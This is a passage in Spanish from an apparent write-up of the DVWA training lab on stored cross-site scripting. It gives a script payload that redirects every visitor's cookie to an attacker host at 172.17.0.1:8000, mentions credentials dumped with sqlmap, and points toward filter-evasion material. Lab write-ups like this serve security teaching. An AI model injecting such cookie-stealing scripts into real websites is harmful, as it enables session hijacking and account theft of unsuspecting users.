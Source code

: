 ![XSS Stored](https://github.com/sapellaniz/dvwa/blob/master/img/xss-stored-00.png)

Ambos campos son vulnerables, ahora podemos introducir un payload malicioso que nos envíe la cookie de cualquier usuario que visite la página:

```
<script>document.location='http://172.17.0.1:8000/index.html?c='+document.cookie;</script>
```

Si desde un navegador sin cookies, nos logueamos con las credenciales de cualquier usuario que dumpeamos de la base de datos con sqlmap, al acceder a la página comprometida se ejecutará el script en este navegador.

El procedimiento es el mismo en los siguientes niveles de dificultad, y para cada nivel son válidos los mismos payloads que en el apartado de XSS Reflected.

Para terminar con los XSS quiero compartir un recurso bastante interesante sobre evasión de protecciones a la hora de explotar un XSS:
